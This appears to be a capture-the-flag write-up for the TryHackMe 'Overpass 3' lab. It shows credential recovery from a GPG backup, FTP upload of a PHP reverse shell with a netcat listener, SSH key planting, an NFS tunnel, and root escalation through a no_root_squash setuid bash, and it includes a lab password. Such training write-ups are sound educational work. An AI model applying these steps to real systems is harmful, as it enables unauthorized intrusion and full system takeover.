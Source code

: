 ```yaml
---
layout: default
title : Overpass 3 - Web Hosting - THM
---
```


![Screenshot_20220324_031714](https://user-images.githubusercontent.com/24994796/160209915-2f41711f-71af-4a91-9eae-60237a89aeef.png)

# Less chatting more hacking 🤤
Let's jump right into it 

Here we are working with couple of broke programmers who built a web hosting ......

Upon firing up the machine we get an IP address

First thing for every good security operative is enumeration
so we run an nmap scan to know which ports/services are up and running

![Screenshot_20220326_003154](https://user-images.githubusercontent.com/24994796/160210613-a77cc466-9717-4ee1-bb5e-11ba76dfcfa2.png)
After the scan we notice 3 ports opened and a bunch of vulnerebilities 
- Port 21,22 and 80 
- FTP,SSH and HTTP respecfully
- also notice on line 27,28 we already ran an http-enum and found two directories 
- lets keep those in mind for next time
Let's head on to our browser, load the website 
![Screenshot_20220326_003036](https://user-images.githubusercontent.com/24994796/160211351-b5006e30-7eb5-4b49-a362-f174c3c8d1ac.png)
We see the index page doesn't really give us much but we can clearly see staffs and their roles
Nothing major there except from an about page and Downloads
So heading on to the /backups directory we got from our scan we notice see a backup zip file 
We download it, extract it and were greeted with two files a gpg and a private pgp key file
![Screenshot_20220326_001459](https://user-images.githubusercontent.com/24994796/160211822-12de9c93-f934-4b7e-9486-c78fed62d191.png)
I guess we'll be learning a bit about pgp and gpg xD 
# Proceed to both this links if you want to learn about how to import keys and change a pgp passphrase

https://makandracards.com/makandra-orga/37763-gpg-extract-private-key-and-import-on-different-machine
https://blog.chapagain.com.np/gpg-how-to-change-edit-private-key-passphrase/


First change direcetory to one the contains your backup extracted files 
make sure you have gpg installed on yyour machine 
then we get into it
In your terminal type this 
- sudo apt-get install gpg 
- gpg --list-keys 
notice nothing is returned
- gpg --list-secret-keys 
Now let's proceed to importing the keys 
- gpg --import private.key
- run the gpg --list-secret-keys 
Notice we finally get some keys

![Screenshot_20220326_004741](https://user-images.githubusercontent.com/24994796/160212412-a94c2a7a-c8ed-46e9-9847-06a1c7356563.png)

Now changing its passphase
- gpg --edit-key your-key-ID
Your Key will be in hexadecimals 
- gpg> passwd
You'll be asked to input your new password twice 
Let's just type overpass
- gpg> save
Save it

# Decrypting the gpg file
In order to decrypt an encrypted file on Linux, you have to use the “gpg” command with the “-d” option for “decrypt” and specify the “. gpg” file that you want to decrypt.
Again, you will be probably be prompted with a window (or directly in the terminal) for the passphrase.
- gpg -d CustomerDetails.xlsx.gpg 
- input your passphrase
Now head back to the foleder that contains the backup files, you'll notice a new file, open it

![Screenshot_20220326_011324](https://user-images.githubusercontent.com/24994796/160213471-14e62faf-ce34-4e36-8212-d6af23650147.png)

![Screenshot_20220326_011913](https://user-images.githubusercontent.com/24994796/160213859-44e83b4d-70ce-4198-983d-2a7b79a8ddd0.png)


We have login credentials where to use it ?
Remember in our scan we had FTP&SSH being open 
Upon trying the SSH with all login details we didn't have any successfull ssh login
Let's try the FTP
make sure you have ftp installed on your pc 
- sudo apt-get install ftp
- ftp "machine IP"
- it prompts us to give a user 
- and a password
Just have fun trying all the users and passwords 

After logging in, we run ls to list directories
we see the backups directory and some other things 
It seems that's web directory
lets upload our web rev shell (/usr/share/webshells/php/php-reverse-shell.php) or any php of your choice
change the ip and port to port of our preferance and IP to our attacker machine's

![Screenshot_20220324_152536](https://user-images.githubusercontent.com/24994796/160214017-3d0abbd9-e0c1-48de-9286-2286a46c8ead.png)

Set up your listner 
- rlwrap nc -lvnp PORT
Head to the website and chane the directory to IP/webshell name 

![Screenshot_20220324_153103](https://user-images.githubusercontent.com/24994796/160214407-451de196-ff68-48cd-b2e9-161638230135.png)

We should caught a shell 


So yes from ![Screenshot_20220324_152557(2)](https://user-images.githubusercontent.com/24994796/160214836-b0e9a821-ee1b-473b-a718-1b56a9230376.png)

That's our initial shell, 
make the shell a stable one (* that'll be your little task, use bash to stabilize the shell, but rlwrap is a pretty stable shell)
from THM hint the webflag is in the apache user path
- cat /etc/passwd
![Screenshot_20220324_220936](https://user-images.githubusercontent.com/24994796/160214960-fb08e394-53c0-4c01-bb7e-9a99f9b0be17.png)
- cd /usr/share/httpd (apache path)
- ls
- cat your web flag

we have a user paradox who we have his password so let's head to his path
- su paradox
- ShibesAreGreat123 (password)

so let's try getting the user flag now, Paradox lacks the right to

run linpeas.sh or you can go through a series of manual exploitation

pay attention to NFS 
we check /etc/exports 
and see that the user james has a share to his path and it has the root_no_squat option
on our pc try mounting this share 
- showmount -e "MACHINE IP"
- we noticed some sort of Firewall is blocking our share 
- so let's try ssh port forwarding nfs share trick

but before we do that let's get a user we can successfully ssh to

we noticed we couldn't ssh to paradox even tho we had his password 
lets try replacing his authorized_keys with ours 
- first get your ssh key open another terminal tab
- cd ~/.ssh 
- ls 
- cat id_rsa.pub
now we have that let's go back to our shell tab and change paradox authourized keys
![Screenshot_20220324_152701(2)](https://user-images.githubusercontent.com/24994796/160216007-e0214d80-1374-4124-a0db-38c6696efd65.png)

- after that head back to your tab 
- time for the port forwarding trick, the link below explains it quite well, you can head there later 
https://gist.github.com/proudlygeek/5721498 
We run the following
Setup ssh tunnel
- ssh -fNv -L 3049:localhost:2049 paradox@MACHINE-IP 
![Screenshot_20220324_152739](https://user-images.githubusercontent.com/24994796/160216153-57f72cd7-65f9-4a85-9447-21419fe73dbe.png)
Mount the share
- mount -t nfs -o port=3049 localhost:/ /tmp/nfs
![Screenshot_20220324_152808](https://user-images.githubusercontent.com/24994796/160216187-043eef85-12fd-4457-bef4-2f19c26820fb.png)

so yh cd to the folder me mounted it to /tmp/nfs
- ls -la 
lists all files and folders
notice there's a .ssh folder, cd to it and cat the id_rsa.pub file 
so just ssh with it since we don't know the login
- ssh -i id_rsa.pub james@MACHINE-IP
![Screenshot_20220324_152851](https://user-images.githubusercontent.com/24994796/160216662-34572d73-5dae-457d-882a-8585bd8504ec.png)

![Screenshot_20220324_152959](https://user-images.githubusercontent.com/24994796/160216688-8e90ffe7-a381-48f0-802d-28b6a96e6bcb.png)
WE'RE IN 😎
cat out the user flag 

Now time for the privilege escalation path
pay good attention to this, things get tricky here
actually we use hacktricks trick xD
https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe

Head back to our /tmp/nfs folder 
- cd /tmp/nfs
- cp /bin/bash . (note my personal experience was tht after a minute the Terminal was a hung there so i closed it and opend another and went back the /tmp/nfs folder again, listing files a bash file was there)
- chmod +s bash

Now head back to the james's ssh and the shared folder path

./bash -p 

gives drops us a root shell
![Screenshot_20220324_153023](https://user-images.githubusercontent.com/24994796/160217074-d1353f2d-cc78-473b-a756-6d065749cc9b.png)

and BOOM root access 🥸 🤯

so the last task of finding root flag is up to you
nah just kidding 
- cat /root/root.flag
and we should get our root flag

That's it for Overpass 3

Hit me up on Twitter (https://twitter.com/abdulmalik_ttg) if you run into any issues 
Greetings from [SonOfABot]



<br> <br>
[Back To Home](../../index.md)
<br>








